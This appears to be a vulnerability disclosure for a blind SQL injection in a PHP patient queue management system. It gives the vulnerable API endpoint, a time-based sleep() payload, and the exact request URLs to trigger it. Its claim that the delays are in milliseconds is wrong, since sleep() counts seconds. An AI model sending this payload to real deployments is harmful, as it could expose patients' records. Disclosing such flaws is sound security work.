



## Title: Blind SQL Injection Vulnerability in Patients Waiting Area Queue Management System

**BUG_Author:** Lo Wai Man

**Affected Version:** Patients Waiting Area Queue Management System

**Vendor:** [SourceCodester](https://www.sourcecodester.com)

**Software:** [Patients Waiting Area Queue Management System](https://www.sourcecodester.com/php/18348/patients-waiting-area-queue-management-system.html)

**Vulnerability Files:**
- `/pqms/php/api_patient_schedule.php`

pqms/php/api_patient_schedule.php?appointmentID

## Description:

1. **Blind SQL Injection via Patient Check-in:**
   - In the file `/pqms/php/api_patient_schedule.php`, the Appointment function does not properly implement input validation before execute the parameter (AppointmentId) in an SQL query.
   - It can be exploited by sending a crafted request to the input field of Appointment ID with malicious SQL code.

2. **Exploiting the Blind SQL Injection:**
   - By injecting SQL commands into the Appointment ID field, an attacker can manipulate the SQL query to extract unauthorized sensitive information from the database.

3. **Example SQL Injection Payload:**
   - The following payload can be used to malicious SQL code:
     ```
     AppointmentId: '%2b(select*from(select(sleep(20)))a)%2b'
     ```

4. **Requesting the Appointment function:**
   - Make a request to the Patient Check-in:
     ```
     http://localhost/pqms/
     ```
   
   - This vulnerablility is under the back-end API.
     ```
     http://localhost/pqms/php/api_patient_schedule.php?appointmentID
     ``` 

5. **Verifying the Exploit:**
   - If the injection is successful, the attacker can access the unauthorized sensitive information.

## Proof of Concept:

1. Access Patient Check-in in vulnerable application:
   ```
   http://localhost/pqms/
   ```
   

2. Select either options
   ```
   http://localhost/pqms/visit.php
   ```
   

3. Search the patient by using patient's phone number:
   ```
   http://localhost/pqms/patient-search.php
   ```
   
   
5. Click Proceed to Check-in:
   ```
   http://localhost/pqms/checkin.php?patient_id=11
   ``` 
   
   
6. Use the following SQL payload (1):
   ```
   AppointmentId: '%2b(select*from(select(sleep(0)))a)%2b'
   ```
   
7. Attacker can manipulate the database to delay in 0 milli-second and access the unauthorized sensitive information.
   ```
   http://localhost/pqms/php/api_patient_schedule.php?appointmentID='%2b(select*from(select(sleep(0)))a)%2b'
   ``` 
   
   
8. Use the following SQL payload (2):
   ```
   AppointmentId: '%2b(select*from(select(sleep(20)))a)%2b'
   ```

9. Attacker can manipulate the database to delay in 20 milli-seconds and access the unauthorized sensitive information.
   ```
   http://localhost/pqms/php/api_patient_schedule.php?appointmentID='%2b(select*from(select(sleep(20)))a)%2b'
   ``` 
   

## Recommendations:
It is recommended to apply the input validation for protecting the application from this attack vector.

